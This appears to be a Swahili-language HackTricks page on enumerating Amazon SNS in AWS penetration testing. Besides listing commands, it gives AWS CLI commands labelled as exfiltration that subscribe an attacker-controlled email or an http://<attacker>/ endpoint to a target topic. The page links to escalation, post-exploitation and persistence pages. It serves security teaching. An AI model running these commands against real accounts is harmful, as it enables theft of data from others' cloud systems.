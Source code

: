 # AWS - SNS Enum

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa kipekee wa [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS) inaelezwa kama **huduma ya ujumbe iliyosimamiwa kabisa**. Inasaidia aina zote za **mawasiliano kutoka kwa programu hadi programu** (A2A) na kutoka kwa programu hadi mtu (A2P).

Vipengele muhimu kwa mawasiliano ya A2A ni pamoja na **mifumo ya kuchapisha/kusikiliza (pub/sub)**. Mifumo hii inaleta **mada**, muhimu kwa kuwezesha ujumbe wa **juu wa kiasi, msukumo, kutoka kwa wengi kwenda kwa wengi**. Kipengele hiki ni cha faida kubwa katika mazingira yanayohusisha mifumo iliyosambazwa, huduma ndogo ndogo, na miundo ya seva isiyotumia seva. Kwa kutumia mada hizi, mifumo ya wachapishaji inaweza kusambaza ujumbe kwa ufanisi kwa **aina mbalimbali za mifumo ya wasikilizaji**, ikirahisisha mfano wa ujumbe wa fanout.

### **Tofauti na SQS**

**SQS** ni huduma ya msingi wa **foleni** inayoruhusu mawasiliano ya moja kwa moja, ikisimamia ujumbe kwa mtumiaji **mmoja tu**. Inatoa **utoaji wa angalau mara moja**, inasaidia foleni za kawaida na za FIFO, na inaruhusu uhifadhi wa ujumbe kwa kujaribu tena na usindikaji uliocheleweshwa.\
Kwa upande mwingine, **SNS** ni huduma inayotegemea **kuchapisha/kusikiliza**, ikiruhusu mawasiliano ya **moja kwa wengi** kwa kutangaza ujumbe kwa **wasikilizaji wengi** kwa wakati mmoja. Inasaidia **vituo mbalimbali vya usajili kama vile barua pepe, SMS, kazi za Lambda, na HTTP/HTTPS**, na inatoa mifumo ya kuchuja kwa utoaji wa ujumbe uliolengwa.\
Ingawa huduma zote mbili zinaruhusu kutenganisha kati ya vipengele katika mifumo iliyosambazwa, SQS inazingatia mawasiliano ya foleni, na SNS inasisitiza mifumo ya mawasiliano ya tukio, ya fan-out.

### **Uorodheshaji**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Tafadhali kumbuka kwamba ikiwa **mada ni aina ya FIFO**, watumiaji waandikishaji wanaotumia itifaki ya **SQS** tu ndio wanaweza kutumika (HTTP au HTTPS hawawezi kutumika).

Pia, hata kama `--topic-arn` ina mkoa hakikisha unataja mkoa sahihi katika **`--region`** au utapata kosa linaloonekana kama huna ufikiaji lakini tatizo ni mkoa.
{% endhint %}

### Upatikanaji usiothibitishwa

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### Kupandisha Hadhi

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### Baada ya Uvamizi

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### Uthabiti

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

# Marejeo
* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>Jifunze kuhusu kuvamia AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swagi rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kuvamia kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
